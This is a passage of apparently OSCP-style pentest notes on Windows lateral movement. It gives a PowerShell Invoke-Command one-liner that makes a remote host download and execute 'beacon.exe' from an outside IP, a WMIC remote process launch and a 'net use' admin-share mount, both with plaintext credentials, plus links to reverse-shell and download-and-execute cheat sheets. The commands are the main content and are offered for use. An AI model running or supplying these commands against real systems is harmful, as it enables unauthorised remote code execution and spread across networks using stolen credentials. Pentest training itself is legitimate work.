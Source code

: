 ``` 
```
Donwnload and execute exploit remotely in one line:
```
Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {powershell Invoke-WebRequest -Uri 'http://10.10.10.10/beacon.exe' -OutFile 'C:\Temp\beacon.exe'; Start-Process -wait C:\Temp\beacon.exe}
```
## WMI
```
wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```
## Netuse
```
net use \\ordws01.cscou.lab /user:DOMAIN\username password C$
```
# Ressources

[Pentest-Cheatsheets/file-transfers.rst at master · Tib3rius/Pentest-Cheatsheets (github.com)](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/windows/file-transfers.rst)
[Pentest-Cheatsheets/useful-commands.rst at master · Tib3rius/Pentest-Cheatsheets (github.com)](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/windows/useful-commands.rst)
[Pentest-Cheatsheets/powershell.rst at master · Tib3rius/Pentest-Cheatsheets (github.com)](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/windows/powershell.rst)
[PayloadsAllTheThings/Windows - Using credentials.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Using%20credentials.md)
[Tib3rius/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory. (github.com)](https://github.com/Tib3rius/Active-Directory-Exploitation-Cheat-Sheet#lateral-movement)

[PayloadsAllTheThings/Windows - Download and Execute.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)

[Compiling the Exploit - OSCP Notes (gitbook.io)](https://gabb4r.gitbook.io/oscp-notes/exploitaion/compiling-the-exploit)
[msfvenom - OSCP Notes (gitbook.io)](https://gabb4r.gitbook.io/oscp-notes/shell/msfvenom)

[Transfering files on Windows · Total OSCP Guide (gitbooks.io)](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)

[Get Reverse-shell via Windows one-liner – Hacking Articles](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
